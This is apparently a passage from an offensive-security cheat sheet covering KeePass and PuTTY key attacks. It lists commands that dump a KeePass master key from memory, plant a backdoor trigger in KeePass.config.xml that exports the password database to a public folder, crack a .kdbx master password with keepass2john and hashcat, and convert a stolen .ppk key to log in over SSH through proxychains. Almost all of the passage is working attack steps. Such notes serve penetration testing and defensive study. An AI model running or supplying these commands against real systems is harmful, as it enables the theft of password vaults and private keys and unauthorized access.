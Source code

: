 #### Dump KeePass Masterkey
```
Get-KeePassDatabaseKey -Verbose
```

#### Create backdoor in config
```
Find-KeePassconfig -Path $env:appdata\KeePass
Get-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose
Add-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose -ExportPath C:\users\public\
```

#### Guess master password
- Remove the username
```
keepass2john Passwords.kdbx > hash.txt
hashcat -m 13400 -a 0 hash.txt rockyou.txt -r dive.rule
```

## Putty ppk file
```
sudo apt install putty-tools
puttygen privkey.ppk -O private-openssh -o priv_key
proxychains ssh -i priv_key <USER>@<IP>
```
